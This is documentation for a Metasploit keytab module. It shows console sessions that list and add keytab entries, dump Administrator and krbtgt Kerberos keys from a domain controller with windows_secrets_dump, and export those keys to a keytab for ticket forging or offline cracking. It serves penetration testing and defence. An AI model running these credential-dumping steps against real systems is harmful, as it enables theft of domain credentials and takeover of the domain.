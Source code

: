 # keytab

Utilities for interacting with MIT keytab files, which can store the hashed passwords of one or
more principals.

Discovered keytab files can be used to generate Kerberos Ticket Granting Tickets, or bruteforced
offline.

Keytab files can be also useful for decrypting Kerberos traffic using Wireshark dissectors,
including the krbtgt encrypted blobs if the AES256 password hash is used.

## Actions

The following actions are supported:

1. **LIST** - List the entries in the keytab file [Default]
2. **ADD** - Add a new entry to the keytab file
3. **EXPORT** - Export known Kerberos encryption keys from the database

## Scenarios

### List

```
msf6 auxiliary(admin/kerberos/keytab) > run keytab_file=./example.keytab

Keytab entries
==============

 kvno  type         principal                 hash                                                              date
 ----  ----         ---------                 ----                                                              ----
 1     18 (AES256)  Administrator@ADF3.LOCAL  56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100

[*] Auxiliary module execution completed
```

### Add

Adding an entry using a known password hash/key which has been extracted from a Domain Controller - for instance by using the `auxiliary/gather/windows_secrets_dump` module:

```
msf6 auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=krbtgt realm=DEMO.LOCAL enctype=AES256 key=e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c

[*] modifying existing keytab
[+] keytab entry added to ./example.keytab
```

Adding entries using a specified password:

```
msf6 auxiliary(admin/kerberos/keytab) > run action=ADD keytab_file=./example.keytab principal=Administrator realm=DEMO.LOCAL enctype=ALL password=p4$$w0rd

[*] modifying existing keytab
[*] Generating key with salt: DEMO.LOCALAdministrator. The SALT option can be set manually
[+] keytab entry added to ./example.keytab
```

### Export

Export Kerberos encryption keys stored in the Metasploit database to a keytab file. This functionality is useful in conjunction with secrets dump

```
# Secrets dump
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smbuser=Administrator smbpass=p4$$w0rd rhosts=192.168.123.13
... ommitted ...
# Kerberos keys:
Administrator:aes256-cts-hmac-sha1-96:56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01
Administrator:aes128-cts-hmac-sha1-96:df990c21c4e8ea502efbbca3aae435ea
Administrator:des-cbc-md5:ad49d9d92f5da170
Administrator:des-cbc-crc:ad49d9d92f5da170
krbtgt:aes256-cts-hmac-sha1-96:e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c
krbtgt:aes128-cts-hmac-sha1-96:ba87b2bc064673da39f40d37f9daa9da
krbtgt:des-cbc-md5:3ddf2f627c4cbcdc
... ommitted ...
[*] Auxiliary module execution completed

# Export to keytab
msf6 auxiliary(gather/windows_secrets_dump) > use admin/kerberos/keytab
msf6 auxiliary(admin/kerberos/keytab) > run action=EXPORT keytab_file=./example.keytab
[+] keytab saved to ./example.keytab
Keytab entries
==============

 kvno  type              principal                                   hash                                                              date
 ----  ----              ---------                                   ----                                                              ----
 1     1  (DES_CBC_CRC)  WIN11-DC3$@adf3.local                       3e5d83fe4594f261                                                  1970-01-01 01:00:00 +0100
 1     17 (AES128)       ADF3\DC3$@adf3.local                        967ccd1ffb9bff7900464b6ea383ee5b                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  ADF3\DC3$@adf3.local                        62336164643537303830373630643133                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       Administrator@adf3.local                    56c3bf6629871a4e4b8ec894f37489e823bbaecc2a0a4a5749731afa9d158e01  1970-01-01 01:00:00 +0100
 1     17 (AES128)       Administrator@adf3.local                    df990c21c4e8ea502efbbca3aae435ea                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     1  (DES_CBC_CRC)  Administrator@adf3.local                    ad49d9d92f5da170                                                  1970-01-01 01:00:00 +0100
 1     18 (AES256)       krbtgt@adf3.local                           e1c5500ffb883e713288d8037651821b9ecb0dfad89e01d1b920fe136879e33c  1970-01-01 01:00:00 +0100
 1     17 (AES128)       krbtgt@adf3.local                           ba87b2bc064673da39f40d37f9daa9da                                  1970-01-01 01:00:00 +0100
 1     3  (DES_CBC_MD5)  krbtgt@adf3.local                           3ddf2f627c4cbcdc                                                  1970-01-01 01:00:00 +0100
... ommitted ...
[*] Auxiliary module execution completed
```

### Common Mistakes

**Invalid REALM/PRINCIPAL/SALT**

When generating a keytab with a password, a salt is generated by default from the principal and realm unless one is explicitly provided.
For Windows Active Directory environments, these values are case-sensitive. The realm should be upper case, and the principal is case-sensitive.

When the SALT is not explicitly provided a salt will be generated, for instance:

```
REALM.EXAMPLEAdministrator
```
